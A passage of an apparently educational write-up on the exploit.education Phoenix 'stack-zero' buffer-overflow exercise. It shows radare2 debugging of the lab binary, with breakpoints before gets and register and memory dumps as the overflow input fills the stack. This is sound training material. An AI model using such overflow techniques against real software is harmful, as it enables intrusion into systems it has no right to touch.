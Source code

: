 ```shell
$ ./theScript.py > pattern
```

Now, the binary can be debugged as follows:

```shell
$ r2 -d /opt/phoenix/i486/stack-zero -r theProfile.rr2
```

*Note that when debugging with radare2, the visual panels are really awesome! They can be accessed with `v!` or `V!`.*

To showcase that the binary is indeed vulnerable, a breakpoint before the call to `gets` is necessary. That can be done by simply executing `db` followed by the address and then `dc` to continue until the breakpoint is hit.

```nasm
[0xf7f03d4b]> aas
Cannot analyze at 0x08048560
[0xf7f03d4b]> db 0x080484e4
[0xf7f03d4b]> dc
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
hit breakpoint at: 80484e4
```

Before calling `gets`, it is a good idea to check the value of `var_ch`. This can be accomplished by first checking the value of the `ebp` register, via `dr`, and then viewing the hexdump at address `ebp-0xc`, via `px/xw`.

```nasm
[0x080484e4]> dr
eax = 0xff9353cc
ebx = 0xf7f39000
ecx = 0xff935300
edx = 0x00000000
esi = 0xff9354a4
edi = 0x00000001
esp = 0xff9353b0
ebp = 0xff935418
eip = 0x080484e4
eflags = 0x00000296
oeax = 0xffffffff
[0x080484e4]> px/xw 0xff935418-0xc
0xff93540c  0x00000000                                   ....
```

To execute the next instruction by stepping over, simply use `dso`.

```nasm
[0x080484e4]> dso
hit breakpoint at: 80484e9
[0x080484e4]> dr
eax = 0xff9353cc
ebx = 0xf7f39000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xff9354a4
edi = 0x00000001
esp = 0xff9353b0
ebp = 0xff935418
eip = 0x080484e9
eflags = 0x00000286
oeax = 0xffffffff
[0x080484e4]> px/24xw 0xff9353b0
0xff9353b0  0xff9353cc 0x00000000 0x0000006f 0x00000010  .S......o.......
0xff9353c0  0x080482b4 0x08048551 0x00000000 0x58585858  ....Q.......XXXX
0xff9353d0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff9353e0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
```

[exploit-education]: https://exploit.education/downloads/
[rabin2-docs]: https://r2wiki.readthedocs.io/en/latest/tools/rabin2/